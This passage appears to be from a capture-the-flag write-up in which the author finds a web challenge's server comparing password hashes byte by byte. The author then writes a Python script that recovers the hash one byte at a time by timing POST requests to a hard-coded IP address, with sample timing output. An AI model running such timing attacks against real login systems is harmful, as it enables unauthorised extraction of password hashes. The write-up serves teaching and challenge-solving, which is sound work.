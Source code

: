 `x.charCodeAt[x.length & 0xFF]`

This is a typo and this wrong piece of code probably makes the hash function unfeasible for a correct validation on the backend server, because we won't ever get the same hash value... This is a good assumption to take!

While revisting the attacks against hash functions I saw an interisting topic about Timing Attack: _"Comparing the hashes in "length-constant" time ensures that an attacker cannot extract the hash of a password in an on-line system using a timing attack, then crack it off-line_.

_The standard way to check if two sequences of bytes (strings) are the same is to compare the first byte, then the second, then the third, and so on. As soon as you find a byte that isn't the same for both strings, you know they are different and can return a negative response immediately. If you make it through both strings without finding any bytes that differ, you know the strings are the same and can return a positive result. *This means that comparing two strings can take a different amount of time depending on how much of the strings match.* "_ [1]

Time to create a PoC for a timing attack. The idea is to send each hash within the range from 0x00 to 0xFF for the first two chars, filled with `ff` until 64 chars in total (padding()). These first two chars represent a byte (hex digest) in the hash. After sending the request we save the time elapsed in a dictionary.

```python
def padding(h):
    r = h + ('f' * (64 - len(h)))
    return r
   
def send(payload):
    URL = 'http://104.196.12.98/'
    r = requests.post(URL, data={'hash':payload})
    return r.elapsed.total_seconds()
    
if __name__ == '__main__':
    times = {}
    for x in range(0,0xff):
        times[format(x, 'x').zfill(2)] = send(padding(format(x, 'x').zfill(2)))
    print(times)
```

I got:

```
{ ...
    "ef": 0.6429750000000001,
    "f0": 0.6428805,
    "f1": 0.6429075,
    "f2": 0.6429579999999999,
    "f3": 0.6426725,
    "f4": 0.6429405000000001,
    "f5": 0.6432635,
    "f6": 0.6427134999999999,
    "f7": 0.6425565,
    "f8": 0.6429004999999999,
    "f9": 1.1436354999999998,
    "fa": 0.6428285,
    "fb": 0.642867,
    "fc": 0.6430150000000001,
    "fd": 0.642695,
    "fe": 0.643376,
}
```
Note that 'f9' took 1.14 seconds, which is 0.5s more than the others. Now I should test the next two chars prefixing `f9` in the hash and so on until I got the complete hash.
